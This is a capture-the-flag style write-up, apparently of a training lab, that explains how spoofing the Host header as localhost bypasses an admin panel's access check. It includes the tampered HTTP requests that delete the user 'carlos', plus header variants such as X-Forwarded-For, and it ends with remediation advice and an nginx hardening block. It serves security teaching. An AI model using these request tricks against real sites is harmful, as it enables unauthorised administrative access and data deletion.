





## Challenge Overview
* **Challenge name**: Host header authentication bypass
* **Category**: HTTP Host Header attacks / Access Control Bypass
* **Level**: Apprentice
* **Objective**: Bypass the administrative authentication controls at `/admin` and delete user account `carlos`.

---

## 1. Core Fundamentals

In web application authorization architectures, administrative panels are frequently protected by perimeter-style access barriers designed to restrict access exclusively to internal networks or local host environments. Vulnerabilities emerge when systems determine client identity and privilege levels based on application-layer metadata rather than verifying network-layer connection properties.

### 1.1. Nature of the Host Header in HTTP

Standardized in HTTP/1.1 to facilitate Virtual Hosting, the `Host` request header allows a single physical server and IP address to host and serve multiple distinct domain names. Crucially, this header resides entirely at the application layer and remains completely under the client's control.

### 1.2. Architectural Flaw in Authentication and Access Control

To determine whether an incoming request originates from a trusted local user, secure engineering standards require inspecting the client's source IP address at the transport layer via the underlying TCP socket. However, developers frequently make the fatal mistake of evaluating the string value provided in the HTTP `Host` header instead:

```javascript
// Common vulnerable implementation
if (request.headers['host'] === 'localhost' || request.headers['host'] === '127.0.0.1') {
    allowAdminAccess();
} else {
    denyAccess("Admin interface only available to local users");
}
```

Because external TCP packets from the public Internet are routed directly to the server's public IP address, once they reach the application processing layer, the presence of `Host: localhost` tricks the authorization logic into assuming the request originated internally from the host itself.

---

## 2. Attack Architecture / Threat Model

### 2.1. Root Cause and Vulnerability Preconditions

- **Flawed Trust Assumption:** The application infers user privilege and network locality solely from client-supplied string values in the `Host` header.
- **Permissive Web Server Routing:** The upstream web server accepts and proxies requests with mismatched or arbitrary `Host` values without validating against canonical server names.
- **Bypassed Session Authentication:** The administrative interface relies on superficial header checks rather than enforcing robust, cryptographically validated administrator session tokens.

### 2.2. Attack Flow Diagram

```text
[ Attacker via Internet ]
       │
       │  Sends request to Server Public IP:
       │  GET /admin HTTP/2
       │  Host: localhost             <── Spoofs internal identity
       ▼
[ Web Server ]
       │
       │  Accepts TCP stream and forwards to application layer
       ▼
[ Access Control Filter ]
       │
       │  Inspects Host header == 'localhost' ──► Authorized!
       ▼
[ Admin Panel Interface /admin ]
       │
       │  Grants administrative rights & executes user deletion
       ▼
[ Returns 200 OK / 302 Found to Attacker ]
```

> [!NOTE]
> **Question:** In real-world environments, why might modifying `Host: localhost` trigger a `504 Gateway Timeout` or `404 Not Found`?
> 
> **Answer:**  
> This behavior occurs when an intermediate Reverse Proxy (e.g., Nginx, HAProxy) utilizes the `Host` header itself to route upstream traffic. When changed to `localhost`, the proxy attempts to route to an upstream named `localhost` that may not exist in the routing table, resulting in connection timeouts or 404 responses. To bypass this, penetration testers explore alternative strategies:
> - **Retaining `Host: victim.com` while injecting source IP override headers:**
>   - `X-Forwarded-For: 127.0.0.1`
>   - `X-Real-IP: 127.0.0.1`
>   - `X-Custom-IP-Authorization: 127.0.0.1`
> - **Testing localhost representations and variants:** `127.0.0.1`, `[::1]`, `127.1`, `localhost:80`, `localhost:443`.
> - **Duplicate Host Headers:** Providing two conflicting `Host` headers within the same HTTP request.

---

## 3. Vulnerability Exploitation

The vulnerability exploitation procedure is carried out across five sequential steps:

### Step 1: Information Gathering via robots.txt

Dispatch a request to inspect `GET /robots.txt HTTP/2` via Burp Suite Repeater. The response reveals a restricted administrative endpoint:

```text
User-agent: *
Disallow: /admin
```



---

### Step 2: Confirming Access Controls on /admin

Directly request the discovered administrative endpoint `GET /admin HTTP/2` utilizing the default lab `Host` header. Access is denied with an authorization error:



---

### Step 3: Modifying the Host Header to Bypass Access Control

Within Burp Repeater, tamper with the request by replacing the `Host` header value with `localhost`:

```http
GET /admin HTTP/2
Host: localhost
Cookie: session=bvTBP6Fu9K0cjcZJqJbpxfhkNPCiTMCd; ...
User-Agent: Mozilla/5.0...
```

Result: The server responds with `HTTP/2 200 OK`, successfully bypassing the access control validation.



---

### Step 4: Analyzing the Administrative Source Code

Inspect the returned HTML response from Step 3 to identify user management endpoints and deletion links:

```html
<section>
    <h1>Users</h1>
    <div>
        <span>wiener - </span>
        <a href="/admin/delete?username=wiener">Delete</a>
    </div>
    <div>
        <span>carlos - </span>
        <a href="/admin/delete?username=carlos">Delete</a>
    </div>
</section>
```



---

### Step 5: Deleting Carlos's Account and Achieving Objective

Issue a deletion request targeting user `carlos`, retaining the `Host: localhost` header:

```http
GET /admin/delete?username=carlos HTTP/2
Host: localhost
Cookie: session=bvTBP6Fu9K0cjcZJqJbpxfhkNPCiTMCd; ...
```

The application executes the deletion successfully, issuing an `HTTP/2 302 Found` redirection header to `Location: /admin`. Carlos's account is permanently deleted.



Refresh the application interface in the browser to confirm challenge completion.


---

## 4. Remediation Strategies

### 4.1. Application-Layer Remediation

- **Decouple Access Control from Host Headers:** Never base access control or authorization decisions on client-supplied HTTP request headers.
- **Implement Role-Based Access Control (RBAC):** Administrative interfaces must strictly require authenticated session contexts associated with privileged administrative roles.
- **Verify IP via Socket Connection:** When restricting functionality to local networks, inspect the remote client IP directly through the underlying network socket rather than relying on HTTP headers.

### 4.2. Web Server and Reverse Proxy Hardening

- **Define Default Virtual Host Catch-Alls:** Configure web servers to immediately reject or drop connections presenting unfamiliar or unrecognized `Host` headers that do not match canonical domains.
- **Nginx Hardening Configuration:** Implement a default server block to drop non-matching hostname requests:

```nginx
server {
    listen 80 default_server;
    listen 443 ssl default_server;
    server_name _;
    return 444; # Terminate connection without response
}
```
